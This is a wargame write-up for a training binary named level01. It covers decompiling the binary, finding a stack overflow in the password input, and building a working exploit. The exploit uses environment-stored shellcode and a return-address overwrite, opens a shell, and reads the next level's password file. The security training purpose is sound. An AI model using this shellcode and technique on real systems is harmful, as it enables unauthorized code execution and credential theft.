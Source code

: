 ### step 1: Decompile with Ghidra

- We get the c source code of the program
- The binary is in 32-bits

```
file level01
level01: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=46d63f92a3bb0a950cf71dd3a5a630ade86057ab, not stripped
```

### step 2: Code analysis

- We are first asked a username that is compared to the string `dat_will` in the function `verify_user_name`  
- We are then asked a password that we can exploit with an overflow because 100 chars of stdin are read and stored in `buffer[16]`  


### step 3: Finding the EIP offset

```
( python -c 'print("dat_will")' ; python -c 'print("A" * 80)') | ./level01
```

- The EIP is overwritten at the 80th char, so our buffer will containe 79 bytes + the return address we will use in our exploit   

### step 4: Building the exploit with a Shellcode in Env

#### Shellcode 

```
env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01
```

Our nope sled spans from `0xffffddae` to `0xffffdfae`, so we target an address in the middle : `0xffffdeae`.


#### Finding the address of the shellcode in env

```
env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01
```

```gdb 
b main
r
x/s *((char **)environ + 3)
0xffffdda4:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\...
```
Our shellcode address is : `0xffffdda4`

- Our nopesled starts from `0xffffdda4` and spans over 512 bytes, so we target and address in the middle of the nopesled : `0xffffdeae`.

- We convert `0xffffdeae` in little endian : `\xae\xde\xff\xff`


#### Final Exploit

- Our final exploit is build like this :

```
( python -c 'print("dat_will")' ; python -c 'print("A" * 80 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level01
```

- A shell is opened :

```
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
